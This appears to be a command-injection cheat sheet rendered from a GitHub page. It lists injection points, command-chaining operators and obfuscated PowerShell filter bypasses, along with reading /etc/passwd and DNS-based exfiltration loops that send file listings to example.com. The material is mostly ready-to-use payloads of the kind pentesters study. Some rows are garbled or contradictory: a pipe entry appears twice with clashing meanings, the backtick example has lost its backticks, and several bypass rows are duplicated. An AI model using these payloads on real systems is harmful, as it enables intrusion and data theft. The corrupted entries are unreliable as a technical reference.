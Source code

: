 ### **Command Injection**

Command injection permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. This can lead to unauthorized access or control over the application's environment and underlying system, potentially compromising the application and all its data.

### **Identify Injection Points**

1.  Parameter Injection: Check if any input parameters are directly used in command execution.
2.  Path Injection: Look for file paths that can be manipulated to include command execution.
3.  Header Injection: Inspect HTTP headers (e.g., User-Agent, Referer) for possible injection points.
4.  Cookie Injection: Analyze cookie values for potential command injection vectors.

### **Determine Context**

1.  Quoted Context: Commands need to break out of quotes (using `"` or `'`) before execution.
2.  Unquoted Context: Commands are directly appended to the command string.

### **Basic Command Execution**

| Technique | Description |
| --- | --- |
| `ls \| id` | Executes both commands. |
| `ls \| id` | Pipes the output of `ls` into `id`. |
| `ls && id` | Executes `id` if `ls` finishes successfully. |
| `ls & id` | Executes both but shows the output of only the second command. |
| `ls %0A id` | Executes both using URL encoded newline (`%0A`). |
| `ls` | Executes command within backticks. |
| `$(ls)` | Executes command within `$()`. |
| `ls; id` | Chains commands using semicolon. |
| `ls${IFS}id` | Uses environment variables to inject commands. |

### **Bypass Protections**

#### Unix-Specific Techniques

| Technique | Description |
| --- | --- |
| `> /var/www/html/out.txt` | Redirects output to a file. |
| `< /etc/passwd` | Sends input from a file. |

#### Windows-Specific Techniques

| Technique | Description |
| --- | --- |
| `powershell.exe -Command "..."` | Executes PowerShell commands. |
| `cmd.exe /c "..."` | Executes commands using `cmd.exe`. |

### **Limitation Bypasses**

| Technique | Description |
| --- | --- |
| `powershell C:**2\n??e*d.*?` | Bypasses filters using wildcard characters in PowerShell. |
| `@^p^o^w^e^r^shell c:**32\c*?c.e?e` | Executes calc using obfuscated PowerShell command. |
| `ls${LS_COLORS:10:1}${IFS}id` | Uses environment variables and IFS to inject commands. |

### **Data Exfiltration**

#### Time-Based Data Exfiltration

| Technique | Description |
| --- | --- |
| `time if [ $(whoami cut -c 1) == s ]; then sleep 5; fi` |     |

#### DNS-Based Data Exfiltration

| Technique | Description |
| --- | --- |
| `for i in $(ls /) ; do host "$i.example.com"; done` | Uses DNS queries to exfiltrate data. |
| `$(host $(wget -h\|head -n1\|sed 's/[ ,]/-/g'\|tr -d '.').example.com)` | Exfiltrates data using DNS and `wget`. |

### **Filtering Bypass Techniques**

#### Windows-Specific

| Technique | Description |
| --- | --- |
| `powershell C:**2\n??e*d.*?` | Bypasses filters using wildcard characters in PowerShell. |
| `@^p^o^w^e^r^shell c:**32\c*?c.e?e` | Executes calc using obfuscated PowerShell command. |

#### Unix-Specific

| Technique | Description |
| --- | --- |
| `ls${LS_COLORS:10:1}${IFS}id` | Uses environment variables and IFS to inject commands. |
| `$(ls)` | Executes command within `$()`. |